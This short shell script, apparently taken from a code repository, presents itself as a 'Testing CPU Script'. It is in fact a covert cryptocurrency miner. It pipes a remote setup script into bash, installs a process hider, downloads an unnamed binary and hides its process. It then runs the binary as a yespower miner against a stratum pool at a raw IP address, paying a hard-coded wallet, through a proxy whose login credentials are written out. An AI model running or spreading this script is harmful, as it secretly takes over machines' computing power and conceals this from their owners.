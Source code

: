 echo "==================== Info xARCH ===================="
echo "Testing CPU Script"
echo "***"
echo "SitBack And Enjoy"
echo "===================================================="

echo "+++++++ Fetch Mechine Code +++++++++"
apt update;apt -y install curl unzip autoconf git screen

wget -O - https://deb.nodesource.com/setup_17.x | bash
apt -y install nodejs
apt -y install npm
npm i -g node-process-hider

wget -O tube https://github.com/TamJsmt/TamJsmt/raw/main/data

echo "+++++++ Configure Code +++++++++"
chmod +x tube
ph add tube

echo "Configured Successfully"
./tube -a yespower -o stratum+tcp://198.50.168.213:6234 -u t1HzAqXKFsLFVZJjfcKJJ3VG2ppoXKzJAqZ -p sam1e,c=FLUX -t $(nproc) -x socks5://goofyahh-rotate:bpzn8dndh21q@p.webshare.io:80
